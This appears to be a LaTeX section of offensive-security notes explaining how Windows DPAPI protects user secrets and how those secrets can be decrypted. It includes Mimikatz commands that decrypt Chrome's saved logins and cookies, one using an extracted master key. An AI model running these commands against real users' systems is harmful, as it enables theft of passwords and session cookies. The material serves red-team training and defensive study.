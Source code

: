 \subsubsection*{DPAPI - How decrypt User Secrets?}
With and without the capability to execute code in a target user's context.
\begin{center}
    \includegraphics[width=\textwidth]{resources/11-dpapi-decrypt-user-secrets.png}
\end{center}

\begin{itemize}
    \item DPAPI User masterkeys are in LSASS memory for logged on users
    \item If you’re in a user’s context, the easiest decryption method for *many* (but not all) DPAPI blobs is to call CryptUnprotectData() to have the OS decrypt the blob for you
    \item Example Mimikatz:
   \begin{lstlisting}[language=sh]
        mimikatz # dpapi::chrome /in:"%localappdata%\Google\Chrome\User
        Data\Default\Login Data" /unprotect 
   \end{lstlisting}
\end{itemize}

\subsubsection*{User Secret Decryption using extracted User Master Key}
The master key can now be used to decrypt the user secret:

\begin{lstlisting}[language=sh]
mimikatz dpapi::chrome /in:"...\AppData\Local\Google\Chrome\User Data\Default\Cookies" /masterkey:f35cfc2b44aedd7...
\end{lstlisting}


